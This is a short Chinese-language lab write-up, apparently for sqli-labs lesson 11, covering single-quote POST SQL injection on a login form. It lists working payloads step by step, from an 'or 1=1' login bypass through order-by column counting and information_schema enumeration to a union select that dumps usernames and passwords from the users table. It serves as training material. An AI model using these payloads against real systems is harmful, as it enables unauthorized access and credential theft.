






# Less11

　　这关关于单引号报错post注入

　　不能再利用hackbar进行get传参

　　可以直接在输入框进行注入

　　尝试万能密码：'or 1=1 --+

　　判断字段数:'or 1=1 order by 2 --+

　　说明有两列

　　判断显错位:'union select 1,2 --+

　　判断库名：'union select 1,database() --+

　　判断表名：'union select 1,group\_concat(table\_name) from information\_schema.tables where table\_schema\='security' --+

　　判断列名：'union select 1,group_concat(column_name) from information_schema.columns where table_name='users' --+

　　爆出数据：' union select 1,group\_concat(username ,id , password) from users --+

---
**使用sqlmap**

